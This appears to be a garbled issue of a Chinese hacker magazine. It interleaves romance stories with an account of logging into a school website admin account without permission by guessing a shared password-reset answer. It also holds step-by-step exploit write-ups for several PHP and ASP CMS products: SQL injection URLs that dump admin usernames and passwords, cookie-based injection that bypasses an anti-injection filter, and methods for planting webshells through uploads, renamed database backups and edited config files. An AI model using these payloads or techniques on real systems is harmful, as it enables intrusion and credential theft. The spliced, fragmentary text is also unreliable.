难得放假一天，今天打开我们这里各中学学校的网站，顺便打开了我们这里唯一的私人学校的网站。这个学校的教学质量非常好，就是不知道网站安全做得怎么样。看惯了别人入侵网站的快感，我也想尝试下。大概看了一下是用动易 2005，也没有存在什么注入的地方。本来想看能不能旁注，可是却不行，如图 1。

今天的阳光软软的，一想到马上就快过年，我的心情就无比激动。一直以为今年是个金猪年（详见某银行卡宣传册），不料昨天回去查老黄历才发现事实并非如此，2007 年应该是火猪年才对。所以黑客爱好者一定要多多克制，不要经常动怒哦。话虽然那么说，可回顾 06 年的流氓软件，实在是不得不愤怒，借给 MM 玩的机器居然一次性中了二十几个流氓软件，IE 一个网页都打不开。正在怒不可遏的时候，两篇小说让我突然镇静了下来，一篇是《仅剩的百分之十的爱情》，另一篇是《我属于哪里》……

### 仅剩的百分之十的爱情

笨笨心情女人

想注册一个用户名上去看看，我晕，竟然关闭了注册，如图 2。


由于我的技术不是很好，毕竟我是一个超级大菜鸟。我再到处看了看，也没发现什么可以让我突破的地方，当我正要离开的时候发现了一个可能实现突破的地方，如图 3。


点击忘记密码出现了让你输用户名的窗口，如图 4。


我又在另外一个地方找到了注册会员的昵称，如图 5。


随便找了一个用户输入到“忘记密码”那里，点击“下一步”来到回答问题这个步骤，如图 6。


问题是：我的中学是？我随便弄了几个都不行，用社会工程学也没有收获。我换了几个用户发现问题都是一样的。嘿嘿，我想一定是管理员全部搞一样的吧，我输入学校的名字，我晕，竟然正确了，如图 7。


于是我改了密码就登进去了，如图 8。

大概看了一下，感觉要是谁和这个学校有仇的话，网站主页的内容不就让人……


由于这是一个教许许多多学生的学校，我便就此停手了。其实这种错误是完全可以避免的。主要是因为中国人习惯把一些学校网站的 ID 忘记密码的答案就设置成学校的名字，这就给了别人突破的地方。

文章就这样结束了，没什么技术含量，还望高手指点。

秦一直是一个执着的女子，不然也不会跟男朋友谈了 4 年还始终如一。不过结果不好，男友的家人帮他们把这段恋情划上了句号。

失去了爱情的秦像失去了一切，她给自己做了一个壳，窝在里面再也不肯出来。有着电脑基础的秦开始没日没夜地上网，写文字看黑客网站。慢慢摸索了一年时间，秦竟然摸透了些基本的黑客知识。有了这些知识，秦很容易地到一家电脑技术咨询公司找到了工作。

日复一日朝九晚五的生活终于让秦心生厌倦，她辞职了，她决定去另外一个城市去见一个聊了两三年的网友。这个网友叫州，帮秦度过了许多伤心的日子。秦在心里认定那是她最好的朋友。

初见州，秦有一点点的拘束不安。州比秦高出一个头。现实中的州并不像网络中侃侃而谈，他是害羞木讷的。州带着秦去超市买了点零食然后回寝室，慢慢熟识起来。秦说：你在我心中不是这个样子的。“那是什么样子”州问，“我也说不上来，反正不是这个样子的。”秦皱眉。州凑到秦的面前“那你喜欢哪个我啊”秦边退边笑“当然是网络中的那个你啦，呵呵”“好啊，看我怎么治你”两人围着桌子开始打转了。正闹着，州的室友回来了，3 人一起下楼吃晚饭。吃完饭，州打电话叫了朋友一起去唱歌。回来的时候不知道谁提议去喝酒，一个个都是醉醺醺的，互相搀扶回了家。

第二天是秦决定回家的日子。吃完午饭，州也要去上班了。秦说“州，我和你一起去上班好吗？”州是开火车站货车的，车要到外地停留一晚，第 2 天才可以回来。州想了下说“好吧”秦就跟在州的屁股后面上了火车。车上还有州的师傅。每当和对面交车的时候，州都要蹲下来，因为被别的司机看见州会下岗的。终于一路安全到了目的地，已经是晚上了。单位允许的只有一间房两张床。秦也不管，先霸占了个床说“师傅，不好意思哦，委屈点您就跟州挤一晚吧”师傅笑，也不作声。等州上床的时候就说“我才不要你跟我睡，你这么大个我这么大个，两人会挤坏的，你还是让秦收留你吧”州站在中间，呆呆的，也不知道往哪边走了。秦见了，也觉得不好，望着州很累的样子就往里面移了移。州磨磨蹭蹭地挨到床边，也不盖被子，就这样和衣躺下。秦过意不去，“你盖着被子吧，没关系的，反正床大，别挤我就行”闭上眼睛开始睡觉，却怎么也睡不着。州翻来覆去的，秦一偏头，嘴唇刚好碰到州转过来的脸，两人都不敢动了，只听见对方粗重的喘气声，州慢慢移着脸，把自己的嘴唇对上了秦的嘴唇，秦窝在州的怀里闻着特殊的男子气息，想着这会不会是自己情感的最后一站，幸福地叹息着，紧拥着州……

次日清早发车，晚上才到站，秦理所当然地又多留了一晚。

回家后的秦一脸疲惫却掩不住地高兴。晚上上网，秦对州说“我把我仅剩的百分之十的爱给了你，我就再也没办法爱别人了，除了你。”州回了个惊恐的表情：“真的啊，那我是不是很幸福”。

> 编辑点评：有时候类似文章中描述的这样简单地拿到权限，不仅仅是因为某个用户的安全意识不高，网站程序在很大程度上也起了作用。就文章中的网站程序而言，它的密码保护系统的设计上就应该说是有点缺陷的。现在很多用户的密码问题和答案设置很容易被猜解，网站程序应该考虑到如果密码保护被突破后的安全问题，而文章中的它就逃避了。一些大型的门户，比如网易、腾讯等，它们的密码找回机制不仅仅使用密码保护，它们还会使用安全码、安全邮箱等加以认证。希望国内的 Web 程序员能在安全上投入更多的精力吧！

接下来的日子，焄又去了州的城市 3 次，最后一次，州跟着焄到了她生活了 4 年多的城市。晚上焄的朋友请喝酒。焄醉了，回家后一直地闹，直到朋友打电话来问州：“你是真的喜欢焄吗？”州无语，朋友又说“就算你不喜欢她，也请你今晚对她好点吧，她已经很久没这么正常过了”，州一晚无眠。

州回家后电话很少，也很少上网了，两人就是在网上碰到，好像也没什么话说。焄给他留言：我们之间是怎么了？或许不该见面的对吧？州回：没事。只是你吓着我了，我没经历过你的生活，我不知道怎样面对酒醉的你。请给我时间。焄看了一直等，每天很早上网，等着州上线下线，也不吵他，偶尔说话，也会老公老公地叫，说些甜蜜的话。只是老是觉得心发疼，州也再没邀请过焄去他的城市。

其实焄的心中一直都对州抱有希望，有一天她发信息给州：我不会给你压力，我会等你，我也会为你改变，只请你让我留住我仅剩的百分之十的爱情。

焄带着对州的希望去找工作，公司规定试用一个月。上班第 3 天，州有信息来：我现在医院，你也去医院看看吧。焄急着打电话过去：“州，你怎么了，生什么病了，要我看你吗？”

“没事，你自己去看看就知道了！”话筒里传来州冷漠的声音。

“你先告诉我让我安心啊！”

“好，我告诉你，你听好，三点水，两个木字，你知道我不是那种没原则的人，不会去外面……”

焄茫然地挂了电话，慢慢走下楼，外面阳光刺得她睁不开眼睛，她蹲了下来，好像感觉所有人都在对她指指点点，她实在受不了，狂奔到医院做了化验，靠在化验室窗口等结果。好像过了一个世纪那么久，窗口传来医生不耐烦的声音：“你的化验单！没事化验什么，钱多啊。”焄接过化验单，有种想狂哭的冲动，拖着快虚脱的身体走到江边坐下来，拿出手机发信息：州，我刚从医院出来，结果呈阴性，我没事。你怎么样？是不是验错了。信息发送成功的字幕，可州没回话，再打电话，响两声后传来服务台小姐的声音：对不起，你拨打的用户正在通话中……焄慢慢直起身来，把已捏得破碎不堪的化验单揉成一团，用力向江中扔去。

一个人在江边坐了两个小时，明白公司是回不去了，不过也无所谓了，原本去那家公司的初衷失去了，也就没了待下去的意义。但心中却是那样不甘心，想起自己学到的黑客知识，她急忙跑到网吧，用半小时时间下载了州的 QQ 聊天记录。原来州的 QQ 里最近多了一个叫作梦蝶的女子，她才是州的最爱。而今天就是他们约定见面的日子。

从网吧慢慢神游回租的房子，拿出记录与州点点滴滴的日记本，记下：劫数！仅剩的百分之十的爱情都随着江水走了。从此以后，再也不会爱别人，再也没有能力爱别人了。“世事本无情，我何太执著，不如归去，不如归去”。写完靠在床上，用打火机点燃日记本，放在打开的被子上让它们一起燃烧，看着烧成的灰烬在屋中飘散，听着远处消防车的声音越来越近。焄终于明白：她是个为爱情而生的女子，没了爱情，就失去了她存活的意义！

> **编辑点评：** 让人伤心的文字，掺杂的是对爱情的绝望，仅剩的百分之十的爱情，随着燃烧日记的火焰化成灰烬飘散在空气里。如果我有机会见到文中那个可怜的姑娘，我想对她说：爱情其实和花朵一样，即使有一天凋零消逝，但它剩下的种子，依然会再次生根发芽！花开不败，爱情常在。

### 我属于哪里

Guigui

我曾是个过于单纯的孩子，缺乏生活的目的和意义。我不知道现在的我为什么喜欢孤独，为什么总是刻意地与家人疏远，也许是背负着父母离异的阴影。每逢家人团聚的节日，我总喜欢在打电话中度过。

我喜欢林肯公园的重金属，那是充满激情的音乐，它让我不再感觉孤单，让我觉得我的未来是好的。当音乐响起的时候，仿佛自己在灰蒙蒙的天下驾车穿越枝叶斑驳的大道，寻找回家的路。我喜欢米特尼克时代的故事，我追求自由，只是我的自由来得有些极端，可以说我为玩而活着。颠覆了传统的一切，轻视了应有的责任和感情。

命运的轨道，沉沦注定，往生劫复。

一次午夜醒来，薛儿匍匐在我身上，这样凝视了我良久，她竟会有一些失神的恍惚。我似乎喜欢看她失控的凌乱样，那会令我感到无限扭曲的满意。小笨蛋，我只是以爱的名义和你玩游戏。

我们分手过无数次，我不知道她为什么突然那么地坚决，她不肯分手，决然的姿态吓坏了我，她咬牙切齿、浑身颤抖地拽紧我的领口，那一刻她眼里恨之入骨。我不过是希望她自由快乐，因为她并不属于我，离开我的世界她也许会有更美好的生活，可是她不肯，而且就这样与我成仇。

分手若一直都没有分成，那便一定有一个人在死命地坚持。

一次无意的争执中，我和她说分手，电话的那一端泣不成声，后来渐渐熄灭。当我赶到她的住所时，她已窒息在充满瓦斯的屋里，手里握着尚未打开的火机。我跌坐在汗水和恐惧里，当我醒来时，已经躺在医院的急救室。

说分手，不过一个电话一顿晚餐而已，薛儿和我却在不断的争执中，坚持了九个月。一年并不长，但若加上苦涩或者甜美的记忆，就如同一个世纪。

我们喜欢娱乐场所里热闹的气氛，但却没有办法回避那里的黑暗与混乱。有一次我到外边买晚饭，回来时薛儿不在原来的位子，打电话给她，她不接，等了很久她还是不回来，我便去洗手间找她。到了门口，我看到了网城的老板那卑鄙的笑容，不知他又在干什么坏事。

洗手间里突然传来女人的叫声，我猜是她出事了。一脚踹开门，我看到了里面的那个男人正掐着薛儿的脖子，我一手将那个男人的头狠狠地打向墙壁。眼前整个落在墙上的薛儿，全身凌乱，脸色苍白，没解开的只剩下底裤。看着她的狼狈样我对她微笑，她说我该死你还笑得出来。没等他们爬起，我拽着薛儿从后门跑了，就在出门之前她还狠狠踩了老板一脚。

第二日，我再次来到网城，面对着那个该死的老板，看他那熊样还能撑多久。我打开智能手机，响起酷爱的重金属摇滚乐，启动了潜伏在他们服务器上的多形病毒。他看到我以后，马上叫了几个人过来，我们对待用杀人的眼，一群惹毛我的人有危险。《拳霸》里托尼·贾的身影一再重现。不过十几秒，所有的显示器一片黑屏，机箱剧烈地作响，我的病毒发作了。他们被眼前的一切吓得不知所措，老板看到我的手机屏幕，大概猜出了怎么回事，网城里的电脑全部崩溃。我终于出了这口恶气，始作俑者是我的多形病毒，它不断产生变异，出现新型病毒。多形病毒的母体是“交换器”，是个名叫达克·埃文斯的保加利亚黑客发明的，利用这种交换器的多形性技术，可以产生更新更难清除的多形病毒，它随时以数量无限的形式出现。我漠视政治、权势，追求自由是我的天性。我曾经是个军人，我爱我的民族，还有那些善良的民族。我只想为我的民族做些武器，却无心打开了潘多拉的魔盒。

因为事业，我常常驾车在城市之间穿梭，薛儿常常和我同行，她似乎很喜欢坐在我车里看窗外的景色。薛儿长得很秀气，她给人的感觉很干净，是我喜欢的类型，我似乎也习惯了她在我的身边。

我在自动贩卖机前停下来，买了包香烟，投下硬币的时候，是空彻的声响，在空气中久久回荡。她了解我内心的孤独，我不开心的时候，她总是换一把硬币，摊在我的手心里。我投一个币，她笑一个，一直投到我笑着吻她为止。那一瞬间，幸福是如此地触手可及，我有时候会有那么一刹那要与她共赴人生的冲动。

我很多时候猜不透她的内心，因为她总因一点边缘便可点燃，然后为之疯狂。薛儿失控的时候可怕至极，比如一脚踢开眼前的玻璃桌子，砸到几万元的平板电视。每次争执后，我们又和好如初，似乎我们从来没有任何矛盾。我们经常会去一些乱七八糟的地方唱K、跳舞，在全市最豪华的商业街看电影、喝饮料。

我以为我是神，可以给予软弱的她一些世俗的依靠。我以为自己与众不同，可以在一些适当的时候触摸到她灵魂的深处。我们之间从来没有过什么承诺，那一夜我踌躇于思前想后的门槛，与她肌肤相亲在无名分的夜里。

薛儿的状态在我的意外之外，我总觉得女人是敏感的，稍微冷漠，她们便会知难而退。我在情场上是那样地游刃有余，我太了解女人的心思，若即若离间便可自由翱翔。而这一次则不同，我不明白她的坚持是源于什么。我并不是不爱她，我不过是投入了一点点感情，便嗅出了此次的危险。我不想把自己搞得太惊天动地，我只需要一点点的生活调剂便足矣。

如果当时，我由她任性一次，而我一贯的宽容再坚持一次，那么一切会不会与众不同？如今穿梭在城市里的红男绿女，谁都不肯交付真心，也可以保证安全，而大家也似乎约定了那样的相处方式。可她的爱来势凶猛，全然地不合逻辑，她在想什么，她想要的是什么？她这样猛烈而纯粹的女人我从未见过，我在她那里，不过是个焦头烂额的小孩子。薛儿曾经哭着对我说，秦晨，你是个小孩子，你到底要我怎么样呢？

爱情愤怒片段闪现过去，没有她的世界，是那么与众不同。她什么时候开始影响了我的世界，我有点害怕，她已经可以占据我心里很大一块空间，可我不过还是一个面目成熟但心智尚浅的孩子。

高耸入云的琉璃大厦让我精神恍惚，天空像一张支离破碎的脸。我绕过红灯行驶，突然看到一个女人木然穿行，不过是一个背影，而我整个人凉了下去，那不是薛儿吗？一定是她，那么熟悉又那么陌生，那么遥远又那么靠近。我双手颤抖着握住方向盘，只觉得那一刹阳光都藏了起来，窗外的一切都黯然失色。

我独自穿越枝叶斑驳的大道，寂静的夜空忽然幻化出一片淡蓝。没有任何预兆，我看到一个精灵似的人形，她有着天使般的翅膀。我忽然觉得，此刻的我像个孩子。

她说，游戏终有散场，再贪玩的孩子都不要忘了家的方向，真爱的方向。只因全世界唯有那里会为你亮一束暖黄的光。她挥一挥翅膀，散下湛蓝的光辉，消失在夜空，正如她的到来。

我属于哪里？我的女神。

> **编辑点评：**
> 文章的基调是悲凉的，看着心里冰冷，而且还让人有一种蒙太奇的感觉。“单纯的爱，没有伤害”——这是我们的理想，可现实生活总不会那么如意。不过男主人公到最后一刻还是后悔了，找一个能好好相处的女孩不容易，感情需要好好珍惜。

## 小天栏目

在编辑这期的新洞栏目中，鸿天涯是很欣慰的，看到很多朋友能在我们刊登的文章中学习到新的技术，进而用到自己的实践中，并能把自己的实践成果拿出来和大家分享，真是高兴。同时也希望越来越多的朋友养成这样的好习惯，好好学习，多多交流，都能乐于分享经验，人人都能分析代码、发现漏洞。有朋友在论坛上给我们提建议，希望可以看到更多 OS 漏洞的分析和利用，这里先对支持和关心我们的朋友说声谢谢，我们在新的一年里会时刻提醒自己，尽量满足大家的要求。哦，对了，差点忘了，马上就要过年了，小编鸿天涯在深圳提前给全国各地的读者拜年了，希望来年你们都能在技术上更进一步，早日实现自己的梦想。

## 彻底击溃 C-BLOG

飞舞的帽子[SEU]

- 从本文中你可以学到：
- Cblog 系统的漏洞分析
- 一般的 PHP 漏洞分析方法

```php
$article->pageSize = $_DCACHE['config']['indexNum_normal']; // 设置每页显示多少个日志
if((!isset($isclass) && !isset($_GET['id'])) && !isset($_GET['do']))
{
...
}
```

Cblog 是一款用户很多的基于 PHP 的 Blog 系统，最新版本是 2.6。前段时间看了下代码，发现了几个漏洞，通知官方，但是一直没有修补。现公布出来，希望能引起大家的关注，早点修补。

问题的出现原因是没有定义 article 类，修补方法是在文件的开头加上 `if(!defined(article)) {echo "Error!"; die();}` 就可以了。这个漏洞单独来看危害不大，但是要是结合下面的注入漏洞呢？在有文件权限的时候就完全可以读取文件了。

### 一、泄露绝对路径的漏洞

modules 文件夹下部分文件存在泄露绝对路径的漏洞，在 PHP 的错误显示开启的情况下直接访问如下文件会暴露绝对路径。

### 二、多处跨站漏洞

```text
modules/calendar_mod.php
modules/article_mod.php
modules/list.php
modules/sider.php
```

1、申请链接

在 logo 地址处都没有做过滤，可以写跨站代码，效果如图2。


图1 暴露路径


图2 在申请链接的地方跨站

2、留言

看留言的代码，如下：

```php
if($guestbook->addGuestbook($_POST)){
    updatecache("statics");
    require_once(MODEL_PATH . 'Ubb.Class.php');
    $ubb = new Ubb(); // 将留言内容进行 ubb 转换
    $_POST['content'] = conHTML($_POST['content']); // 对留言内容进行过滤
}
$_POST['content']=qqface($_POST['content']);//对留言内容的过滤
……//省掉一些垃圾代码
} else {
    ajax_err("留言失败，请返回!");
}
```

显然留言的内容是用 conHTML 和 qqface 这两个函数来过滤的，我们翻出这两个函数看看，代码如下：

```php
function conHtml($str) {
    $str = str_replace("<","&lt;",$str);
    $str = str_replace(">","&gt;",$str);//只过滤了<和>
    return $str;
}
function qqface($str,$path="") {
    global $_DCACHE;
    $path = empty($path) ? "/include/ubbEditor/images/smiles/" : $path;
    foreach($_DCACHE['smiles']['id'] as $key=>$val) {
        $str = str_replace($_DCACHE['smiles']['sm_code'][$key],"",$str);
    }
    return $str;
}
```

呵呵，只过滤了 < 和 >，我们不能自己引入 HTML 标记，但可以用它提供的插图的功能，在官方站测试如图3。


### 三、注入漏洞

### 1、getip() 漏洞

伪造 IP 来注入和写文件的问题从牛牛们提出后，N 多 PHP 程序都被这个给击倒了，Cblog 也存在同样的问题。看 function.php 文件，代码如下：

```php
// 获取客户端 IP
function getip() {
    if (isset($_SERVER)) {
        if (isset($_SERVER[HTTP_X_FORWARDED_FOR])) {
            $realip = $_SERVER[HTTP_X_FORWARDED_FOR];
        } elseif (isset($_SERVER[HTTP_CLIENT_IP])) {
            $realip = $_SERVER[HTTP_CLIENT_IP];
        } else {
            $realip = $_SERVER[REMOTE_ADDR];
        }
    } else {
        if (getenv("HTTP_X_FORWARDED_FOR")) {
            $realip = getenv("HTTP_X_FORWARDED_FOR");
        } elseif (getenv("HTTP_CLIENT_IP")) {
            $realip = getenv("HTTP_CLIENT_IP");
        } else {
            $realip = getenv("REMOTE_ADDR");
        }
    }
    return $realip;
}
```

显然是没有防备 IP 伪造的，大家可以跟踪下 $realip，看有没有注入或者写 shell 的问题，偶就不细分析了，留给读者自己去动手吧。

### 2、rss.php 漏洞

进入 Web 2.0 时代了，大家为了追赶时代潮流，弄点新鲜的东西无可厚非的哈，但是你也要弄安全点啊（另外废话一句，不止 Cblog 的 rss.php 存在弱智型注入漏洞，呵呵）。先看它是如何获取文章内容的，代码如下：

```php
$article=new article();
$smarty->assign('rsslist',$article->getNewBlog($_GET['catid']));
```

用了 getNewBlog 函数，我们追踪过去看看，代码如下：

```php
function getNewBlog($catid='')
{
    global $conn,$sqlnum,$makehtml,$_DCACHE;
    $select="";
    if($catid) { //只要catid不为空就送到下面查询了!
        $select=" and '.catid=".$catid;
    }
    $res = $conn->SelectLimit("select * from {$this->tblName} where ispublic=1".$select." and dateline<".(NOW_TIME+OFFSET_TIME)." order by dateline desc",$_DCACHE['config']['lastblog'],0);
    return $this->setData($res);
}
```

傻眼了吧，我们来构造语句暴出所有用户的密码（MD5 加过密的）提交：

```text
catid=1%20and%201=2%20union%20select%2023,username,password,20,19,18,17,16,15,14,13,12,11,10,9,8,7,6,5,4,3,2,1%20from%20ctb_user/*
```

就可以暴出所有用户和密码了，下图图4是在官方测试的截图。结合最上面的泄露绝对路径的问题，在可以 load_file 的时候，危害被进一步放大了。


### 四、后台权限的放任导致得到 webshell

如果通过上面的注入漏洞得到的密文你破解了，那么恭喜你了，在后台得到 shell 实在是太简单了，可能是作者对自己太有信心了，导致后台的权力大得几乎是放任我们做任何事情。

### 1、上传过滤的极端脆弱性

在后台上传文件的地方，只要在 PHP 文件名后面加个空格就可以顺利上传 PHP 文件，名字重新命名为“年月日-原来的文件名”这样形式放在 uploadfile 下。

### 2、修改任意文件

利用后台辅助功能——文件管理/编辑功能，可以向任何一个文件中写后门。

### 3、备份数据

可以备份任何一个表到 bak 目录下，默认的备份文件后缀是 PHP，我们可以通过写个人资料，然后备份相关的数据表，也可以得到一个 shell。

Cblog 的漏洞就分析到这里了，忙着复习考试，文章写得比较匆忙，有疑问的可以到非安全论坛和我交流，我的 ID 是小天。在文章最后，感谢侯莎同学一直以来对我的帮助。

（作者做的演示动画已经收录在光盘中）

> **编辑点评**：
> 很喜欢这些实实在在的漏洞分析文章，虽然只是一个 Blog 系统，但是作者针对目前几种常见的漏洞逐一分析，并能适可而止而不废话连篇，也难能可贵；希望越来越多的朋友参与到找漏洞行动中来，也期待大家来稿分享自己的成果。

## 关于风讯系统的漏洞分析

花非花

- 从本文中你可以学到：
- 风讯系统漏洞分析
- 漏洞的利用思路和技巧

### 一、前言

相信朋友们对风讯系统都不陌生了，因为有一些朋友写出了这套系统的一些漏洞，而且是很严重的漏洞。今天让我们来看看这套系统注入的漏洞，我的测试版本是 3.0 free 版，其他版本未测试，有兴趣自己测试一下。

### 二、漏洞分析

先来看看 UserModify.asp 文件中的代码：

```vb
if request("action")="ChangePwd" then
  Call ChangePwd()
elseif request("action")="Modify" then
  Call Modify()
elseif request("action")="Other" then
  Call Other()
```

通过 request 方法获取客户端传来的数据 action 的值，如果 action 的值为 ChangePwd，就执行 ChangePwd() 函数；如果 action 的值为 Modify，就执行 Modify() 函数；如果 action 的值为 Other，就执行 Other() 函数。下面分别来看 ChangePwd() 函数、Modify() 函数和 Other() 函数：

```vb
sub ChangePwd()
  set RsMemObj = Server.CreateObject ("ADODB.RecordSet")
  RsMemObj.Source="select * from Members where ID=" & Replace(Request("MemID"),"'","")
  RsMemObj.Open RsMemObj.Source,Conn,1,1

sub Other()
  set RsMemObj = Server.CreateObject ("ADODB.RecordSet")
  RsMemObj.Source="select * from Members where ID=" & Replace(Request("MemID"),"'","")
  RsMemObj.Open RsMemObj.Source,Conn,1,1

sub Modify()
  set rs=server.createobject("adodb.recordset")
  sql="select * from Members where ID=" & Replace(Request("MemID"),"'","")
  rs.open sql,conn,1,1
```

从上面的函数可以知道，程序把用 request 方法获取从客户端提交上来的 MemID 的值，用 Replace 函数过滤掉“'”，再存入变量 ID 中，并组成一句 SQL 查询语句，然后存入 RsMemObj.Source 或者 sql 中，然后执行 RsMemObj.Source 或者 sql 的内容。传递数据的过程，只过滤了“'”号，所以我们可以构造注入语句，这样我们就可以用下面三种 URL 来进行注入：

```text
http://localhost/Users/UserModify.asp?action=ChangePwd&MemID=
http://localhost/Users/UserModify.asp?action=Modify&MemID=
http://localhost/Users/UserModify.asp?action=Other&MemID=
```

再看一下上面的 SQL 语句，都没有排序，所以我们可以用 order by 来判断“*”代表几个字段。打开修改资料，http://localhost/Users/UserModify.asp?action=Modify&MemID=17 返回如图1所示（等下方显示做比较）。


提交：http://localhost/Users/UserModify.asp?action=Modify&MemID=17%20order%20by%2010，返回和图1一样，再改变 order by 后的值，一直到 35，返回如图2所示的页面。


说明有 35 个字段参与了 SQL 查询。提交：http://localhost/Users/UserModify.asp?action=Modify&MemID=17%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35%20from%20admin，返回如图3所示的页面。

admin 即为风讯系统的管理员表。管理员表的字段有 ID、Name、Password 等。那么，提交：http://localhost/Users/UserModify.asp?action=Modify&MemID=17%20and%201=2%20union%20select%201,name,3,password,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35%20from%20admin，返回如图4所示。


管理员的用户名和密码分别在会员名和 Email 那里显示出来了。

## 网站管理系统 V8.0

### 冠龙科技企业漏洞利用

樱花浪子[I.S.T]

从本文中你可以学到：

- 1、冠龙科技企业网站管理系统漏洞分析
- 2、使用 Request.cookie 方式进行注射

近日有朋友想做一套整站程序，在网上下了一套“冠龙科技企业网站管理系统 V8.0”，叫我帮看看程序安全如何，于是有了下面这篇文章。

### 一、注射漏洞

当然是先看注入了，在 shownews.asp 文件代码如下：

```asp
<%owen=request("id")%>
代码略……
<%
Set rsnews=Server.CreateObject("ADODB.RecordSet")
sql="update news set hits=hits+1 where id="&cstr(request("id"))
conn.execute sql
sql="select * from news where id="&owen
rsnews.Open sql,conn,1,1
title=rsnews("title")
if rsnews.eof and rsnews.bof then
response.Write("数据库出错")
else
.
%>
```

上面的 ID 直接用 request 取得值，下面进入数据库操作，漏洞产生了。可是我在提交 and 1=1 的时候让我晕倒，如图 1 所示。

防注入程序，上面的代码虽然没过滤，可是都被 `<!--#Include File="inc/Check_Sql.asp"-->` 这个文件里的防注入程序给阻挡了，那有没有办法突破呢？网页文件在接受处理方式的时候一般是 POST 或 GET 两种方式，例如：Request.Form 或 Request.QueryString。而防注入程序 3.0 是限制这两种方式提交，没有限制 Request.Cookie 的方式。也就是我们不用前面两种方式构造注入语句，而网页文件又没有限制提交方式，这样就算用了防注入程序也是不防注的。大家再看看上面的代码，`<%owen=request("id")%>`，直接用 request 取值，下面带进数据库的也一样。只要我们构造 Request.Cookie 的方式提交的语句就可以突破了。我们把图 1 中的 URL 地址去掉，直接在地址栏打上：

`javascript:alert(document.cookie="id="+escape("40 and 1=1"));`

如图 2 所示，40 是图 1 的 ID 值，根据情况换一下。

我们再次访问：`http://127.0.0.1/shownews.asp`，看看返回什么，如图 3，是和 `http://127.0.0.1/shownews.asp?id=40` 一样的，这是因为我们修改为 COOKIE 提交方式成功了。

我们接着提交：

`javascript:alert(document.cookie="id="+escape("40 and 1=2"));`

注意是 1=2，然后再访问 `http://127.0.0.1/shownews.asp`，返回了图 4 的页面，1=1 为正确的页面，1=2 为错误的页面，漏洞又产生了。

接下来构造：

`javascript:alert(document.cookie="id="+escape("40 and (select len(username) from admin)=5"));`

这是看管理员用户名长度是不是 5 位的，然后我们再访问 `http://127.0.0.1/shownews.asp`，如果返回了图 3 的页面说明是正确的，如果返回图 4 的页面则说明是错误的，我们就要改动后面的数据了。猜密码跟猜用户名是一样的，只是把 username 改成 password，例如：

`javascript:alert(document.cookie="id="+escape("40 and (select len(password) from admin)=16"));`

这是看管理员密码是不是 16 位的。

下面继续猜管理员用户名的内容，提交：

`javascript:alert(document.cookie="id="+escape("40 and (select asc(mid(username,1,1)) from admin)=97"));`

如图 5，这是看管理员密码的第一位内容是不是 ASC 码的 a 值，如果返回正常页面说明是正确的。猜管理员密码道理一样，把 `(mid(username,1,1))` 改成 `(mid(password,1,1))` 就可以了，猜第二位密码内容把 `(mid(password,1,1))` 改成 `(mid(password,2,1))` 就可以了。

猜出来密码我们进入后台很容易得到 WEBSHELL 的。首先在新闻管理——添加新闻内容——里面选择我们扩展为 JPG 的 ASP 马儿，然后上传。接着会给出我们路径，如图 6 所示。

我们拿着这个路径去数据库备份的地方备份一下，见图 7，注意这里一定要写后缀为 xx.asp。因为备份成功会是 xx.asp.asa 格式的，这个和 12 月心雨的那篇“攻入南方数据的大门”的备份方式是一样的，最后我们访问的时候要把 asa 格式去掉，最后成功得到 WEBSHELL，如图 8。

### 三、后台拿 Webshell

从上面可以知道密码是 MD5 加密的。解密后，得到密码 admin888，到后台：`http://localhost/Admin/Login.asp` 登录。然后定位系统管理的站点常量设置，如图 5 所示。

将左边的内容替换为马的内容，保存一下，如图 6 所示。

记住替换的马一定要是免杀的，不然整个站连接 INC 目录下的 Const.asp 文件的文件都不能打开了，因为 const.asp 文件会因为我们替换的马的内容而被查杀。修改完之后弹出一个修改成功对话框，我替换的是小马，可访问 `http://localhost/Inc/Const.asp`，得到 webshell，如图 7。

文章到此结束，感谢您看完我的文章，祝大家节日快乐！

> **编辑点评：** 风讯系统还是一个不错的系统，这样的漏洞出得也够狼狈的，文中只详细地跟踪分析了 SQL 注射漏洞，大家可以继续深入，看看还有没有其他漏洞的存在，希望你有大的发现哈。

## 梦可轩整站程序漏洞分析

落花无痕

从本文中你可以学到：

- 1、梦可轩整站程序注射漏洞分析
- 2、ASP 漏洞分析过程

### 一、前言

测试版本是梦可轩整站程序免费版 V4.5，这套程序的名字很好听，原名叫“梦开始的地方整站程序”，不过，今天估计就是噩梦开始了……

### 二、漏洞分析

#### 1. 明显的注入漏洞

这是一套整站程序，主站+论坛的形式，我看了一下，就先从论坛入手。看了一下，pm.asp 文件存在如下代码：

```asp
1.if Request.QueryString("mode")="kai" then
2.sql="select q_title, q_content, q_time, q_id, q_send from pm where q_id="&chktopic(Request.QueryString("q_id"))&""
3.set rs=conn.execute(sql)
```

1 行表示判断通过 Request.QueryString 方法获取客户端提交来的数据 mode 的值是否为 kai，如果是就执行 2、3 行。2 行表示把 chktopic 函数通过 Request.QueryString 获取从客户端提交过来的数据 q_id 的值存储在变量 q_id 中，并将这一段 SQL 查询语句存储在变量 sql 中，然后执行变量 sql 的值。先来看一下 chktopic 函数：

```asp
function chktopic(str)
    if str<>"" then
        chktopic=replace(str, "'", "''")
    end if
end function
```

它这个函数的注释写的是，过滤非法字符。我们看到它指的非法字符只有一个 `'` 号，这样的话，这个函数对我们构造注入语句是不能造成多少影响的。那么，程序通过 Request.QueryString 方法获取客户端的数据只过滤了 `'` 号，所以，我们判断这个文件就存在注入漏洞。

要构造注入语句，先要知道表名、列名。查了一下，管理员的表为 admin，需要用到的列名有 a_id、admin、password。知道了表名、列名之后就可以开始进行注入了，提交：

`http://localhost/BBS/pm.asp?mode=kai&q_id=9%20and%200<(select%20count(*)%20from%20admin%20where%20a_id=3%20and%20asc(mid(admin,1,1))>100)`

返回正常，如图 1 所示。

这句话的意思是，admin 表中列 a_id 的值为 3（刚好就是管理员啦），且 admin 列中的第 1 个字符位的 ASCII 值为大于 100 的值是否存在，返回正常说明了列 a_id 的值为 3，admin 列中的第 1 个字符位的 ASCII 值是大于 100 的。改变后面 100 的值，为 108 返回正常，改为 109 返回出错，说明这个值为 109。

那么，接着改变 `asc(mid(admin,1,1))` 的第一个“1”为“2、3、4……” ，然后再改变后面的“>100”的值，最终猜出结果为 109 101 110 103 107 101，用牛族转换器转一下得到 mengke。然后再提交：

